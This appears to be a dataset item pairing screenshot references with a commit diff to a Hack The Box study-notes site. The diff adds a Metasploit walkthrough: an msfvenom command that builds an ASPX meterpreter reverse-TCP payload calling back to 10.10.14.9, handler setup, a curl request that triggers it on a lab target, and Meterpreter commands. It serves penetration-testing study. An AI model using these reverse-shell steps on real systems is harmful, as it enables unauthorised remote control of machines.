

Before and after one commit to jd-apprentice/hack-the-box, an MkDocs documentation site: the page built from docs/software/metasploit.md, in a window 1280 px wide and 1400 px high, scrolled down 1391 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2007 px from its top, so only the background shows below that.

Commit message:
docs(update): metasploit

````diff
--- a/docs/software/metasploit.md
+++ b/docs/software/metasploit.md
@@ -84,3 +84,43 @@
 ```
 
 Then to run the exploit, you can use the `run`
+
+## Reverse Shell
+
+If we can upload a file to the target machine, we can upload a reverse shell.
+
+```bash
+msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > devel.aspx
+```
+
+Then we can use the `exploit/multi/handler` module to listen for the incoming connection.
+
+```bash
+use exploit/multi/handler
+set PAYLOAD windows/meterpreter/reverse_tcp
+set LHOST MACHINE_IP
+set LPORT 4444
+run
+```
+
+Then we can navigate to the `devel.aspx` file on the target machine to get a reverse shell.
+
+```bash
+curl http://10.10.10.5/devel.aspx
+```
+
+And now in the metaexploit console we should see the following:
+
+```bash
+[*] Sending stage (175174 bytes) to
+[*] Meterpreter session 1 opened
+
+meterpreter > sessions -i 1
+```
+
+## Meterpreter
+
+Once we have a reverse shell, we can use the Meterpreter shell to interact with the target machine. We can use the following commands to interact with the Meterpreter shell:
+
+- `sysinfo`: Get system information
+- `getuid`: Get the user that the process is running as
````
